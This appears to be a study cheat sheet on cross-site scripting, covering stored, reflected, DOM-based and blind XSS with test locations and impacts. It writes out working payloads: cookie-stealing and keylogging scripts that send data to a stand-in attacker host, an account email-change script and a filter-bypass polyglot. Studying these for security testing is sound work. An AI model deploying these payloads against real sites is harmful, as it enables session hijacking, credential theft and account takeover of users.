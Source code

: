 # PoC Payload: <script>alert('XSS');</script>

## Payloads: https://github.com/swisskyrepo/PayloadsAllTheThings

### Session stealing: <script>fetch('https://hacker.com/steal?cookie=' + btoa(document.cookie));</script>

### Keylogger: <script>document.onkeypress = function(p){ fetch ('https://hacker.com/log?key=' + btoa(p.key) );}</script>

### Change user's email address: <script>user.changeEmail('attacker@hacker.com');</script>

# Stored XSS

## Test locations: 

#### 1: Comments on a blog

#### 2: User profile information

#### 3: Website listings

## IMPACT:

#### Steal victim's session cookie. Impersonate the visiting user.

# Reflected XSS

## Test locations:

#### 1: URL file path

#### 2: Parameters in the URL query string

#### 3: Sometimes, HTTP headers

## IMPACT:

#### Attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session/customer information.

# DOM Based XSS

## Test locations:

#### 1: Look for parts of the code that access certain variables that we can have control over.

#### E.g. "window.location.x" parameter.

#### When we've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as "eval()"

## IMPACT:

#### Steal content from page/user's session. Crafted links could be sent to victims, redirecting them to another site.

# BLIND XSS 

## Test locations:

#### Ensure payload has a call back (HTTP request) 

# POLYGLOT PAYLOAD

#### jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e (XSS filter bypass)
